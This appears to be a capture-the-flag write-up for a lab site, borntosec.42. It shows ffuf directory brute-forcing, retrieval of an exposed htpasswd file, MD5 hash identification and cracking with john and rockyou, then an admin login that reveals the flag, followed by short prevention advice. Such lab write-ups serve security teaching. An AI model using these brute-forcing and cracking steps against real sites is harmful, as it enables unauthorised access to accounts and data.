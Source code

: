 # Bruteforcing directories
- a method used to uncover potentially sensitive or unsecured content by guessing paths that might exist on the server
- involves systematically trying different directory and file names on a web server to discover hidden or unlisted resources
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web

<b>keywords</b>: admin (htpasswd)<br>
<b>attacked site</b>: http://borntosec.42/

## Exploit
First, we add the site IP address to the known hosts:
``` shell
└─$ sudo nano /etc/hosts
192.168.56.106  borntosec.42
```
Now we run the <code>ffuf</code> tool to discover any subdirectories on the site:
``` shell
└─$ ffuf -w /usr/share/wordlists/wfuzz/general/common.txt -u http://borntosec.42/FUZZ -mc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://borntosec.42/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/wfuzz/general/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 301
________________________________________________

admin                   [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 17ms]
css                     [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 6ms]
errors                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 9ms]
images                  [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 3ms]
includes                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 5ms]
js                      [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 16ms]
whatever                [Status: 301, Size: 193, Words: 7, Lines: 8, Duration: 6ms]
:: Progress: [951/951] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```
Accessing the <code>/whatever</code> subdirectory, we find a file that we can download:
``` shell
└─$ cat htpasswd           
root:437394baff5aa33daa618be47b75cb49
```
This file likely contains login credentials for the <code>/admin</code> subdirectory. We use <code>hash-identifier</code> to determine the hashing algorithm used:
``` shell
└─$ hash-identifier                  
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 437394baff5aa33daa618be47b75cb49

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
With this knowledge, we crack the password using <code>john</code>:
``` shell
└─$ john htpasswd_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt    
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty123@       (?)     
1g 0:00:00:00 DONE (2024-08-07 20:14) 1.886g/s 8375Kp/s 8375Kc/s 8375KC/s qwerty666666..qwertsss111
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
```
We then navigate to <code>http://borntosec.42/admin/</code> and log in with 'root' and 'qwerty123@'. This displays the flag:
```
The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff
```

## Flag
d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff

## Exploit prevention
- do not store sensitive data in accessible files
- ensure that sensitive directories are protected (authentication mechanism)
